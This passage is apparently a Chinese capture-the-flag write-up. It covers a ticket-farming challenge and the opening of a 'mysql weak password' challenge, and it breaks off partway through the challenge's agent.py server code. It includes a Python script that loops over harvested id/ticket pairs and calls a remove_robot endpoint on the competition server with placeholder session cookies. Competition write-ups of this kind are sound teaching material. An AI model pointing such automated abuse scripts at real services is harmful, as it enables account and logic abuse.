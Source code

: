 批量获取ticket（养猪）

![](https://upload-images.jianshu.io/upload_images/11356161-6b06992bdea24707.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

然后杀了他们

```python
import requests
import time

d = open('t', 'r').read().split('\n')

for i in d:
    print(i)
    time.sleep(2)
    _id = i.split('::')[0]
    t  = i.split('::')[1]
    r = requests.get(f'http://117.51.147.155:5050/ctf/api/remove_robot?id={_id}&ticket={t}', headers={'Cookie': 'user_name=YOUE_NAME; REVEL_SESSION=YOUR_TOKEN'})            
    print(r.text)


```

![](https://upload-images.jianshu.io/upload_images/11356161-87a802b2541dccc5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

***

#### mysql弱口令

个人感觉这道题出的也挺不错

![](https://upload-images.jianshu.io/upload_images/11356161-a06dc95af39c77b1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

首先需要在服务器上部署agent.py，说是代理，其实只是在服务器上执行`ps`然后返回结果

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 12/1/2019 2:58 PM
# @Author  : fz
# @Site    : 
# @File    : agent.py
# @Software: PyCharm

import json
from BaseHTTPServer import HTTPServer, BaseHTTPRequestHandler
from optparse import OptionParser
from subprocess import Popen, PIPE


class RequestHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        request_path = self.path

        print("\n----- Request Start ----->\n")
        print("request_path :", request_path)
        print("self.headers :", self.headers)
        print("<----- Request End -----\n")

        self.send_response(200)
        self.send_header("Set-Cookie", "foo=bar")
        self.send_header("Location", "http://127.0.0.1")
        self.end_headers()

```